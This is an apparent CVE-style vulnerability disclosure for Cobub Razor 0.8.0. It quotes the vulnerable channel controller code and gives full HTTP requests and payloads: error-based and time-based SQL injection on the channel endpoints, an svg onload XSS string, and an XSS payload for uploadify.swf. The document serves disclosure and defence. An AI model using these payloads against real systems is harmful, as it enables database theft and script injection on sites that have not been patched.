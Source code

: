 
## An SQL Injection vulnerability exists in Western Bridge Cobub Razor 0.8.0 via the channel_name and platform parameter in a /index.php?/manage/channel/addchannel request. ##  

Vendor Homepage : http://www.cobub.com/

Software Link : https://github.com/cobub/razor/releases

Affected Version : <= 0.8.0

## Vulnerability description ##  

The string  of the 'channel_name' and 'platform' parameter transmission is completely without check and filter,so if the string is passed, it will lead to the existence of SQL injection vulnerability,This could result in full information disclosure.

Code source:  
/application/controllers/manage/channel.php at line 75-95
```
    /**
     * Addchannel add custom channel
     *
     * @return bool
     */
    function addchannel()
    {
        $userid = $this->common->getUserId();
        $channel_name = $_POST['channel_name'];
        $platform = $_POST['platform'];
        $isUnique = $this->channel->isUniqueChannel($userid, $channel_name, $platform);
        if (!empty($isUnique)) {
            echo false;
        } else {
            if ($channel_name != '' && $platform != '') {
                
                $this->channel->addchannel($channel_name, $platform, $userid);
                echo true;
            }
        }
    }
```
## Technical details ##
request:
```
POST /index.php?/manage/channel/addchannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 28
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22771b48bbea848fd396ce3c79263c7ef8%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1520496121%3B%7D237011da46b2342467385c6f24631de2
X-Forwarded-For: 8.8.8.8
Connection: close

channel_name=test&platform=1%22
```  

## Proof of Concept ##  

The SQL injection type: error-based and AND/OR time-based blind  
Parameter: channel_name,platform  
Payload(This string is also applied to 'platform' at the same time):  
```
1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1
2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1
```
Input special characters ["] can cause an error in the SQL syntax:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_1.png)  
Use manual injection:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_2.png)
SQLmap results:  
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_3.png)
![image](https://github.com/Kyhvedn/CVE_Description/blob/master/Cobub_Razor_0.8.0_sql_4.png)

## Update Content ##
New discovery：
1.SQL injection  

(1)http://localhost/index.php?/manage/channel/addsychannel  

```
POST /index.php?/manage/channel/addsychannel HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://localhost/index.php?/manage/channel
Content-Length: 25
Cookie: ci_session2=a%3A4%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22bb44fb495a8fe728431c1928cb1d7262%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1523169922%3B%7D85bbd681a4008cee10faf391870dfb59
X-Forwarded-For: 10.0.0.1
Connection: close

channel_name=1&platform=1%22
```  
(2)http://127.0.0.1/index.php?/manage/channel/modifychannel  
```
POST /index.php?/manage/channel/modifychannel HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: ci_session2=a%3A5%3A%7Bs%3A10%3A%22session_id%22%3Bs%3A32%3A%22889ee6cfbfef845881c1fef14b37a558%22%3Bs%3A10%3A%22ip_address%22%3Bs%3A7%3A%220.0.0.0%22%3Bs%3A10%3A%22user_agent%22%3Bs%3A73%3A%22Mozilla%2F5.0+%28Windows+NT+10.0%3B+WOW64%3B+rv%3A48.0%29+Gecko%2F20100101+Firefox%2F48.0%22%3Bs%3A13%3A%22last_activity%22%3Bi%3A1523172925%3Bs%3A9%3A%22user_data%22%3Bs%3A0%3A%22%22%3B%7D9e913409dd356b1d7cb57ceeb291d727
X-Forwarded-For: 10.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

channel_id=1212%22&channel_name=xss><svg/onload=alert(1)>&platform=1
```  

2.SWF xss  
http://localhost/assets/swf/uploadify.swf?uploadifyID=00"));}catch(e){alert(1);}//("&movieName="])}catch(e){if(!window.x){window.x=1;alert(2)}}//&.swf  


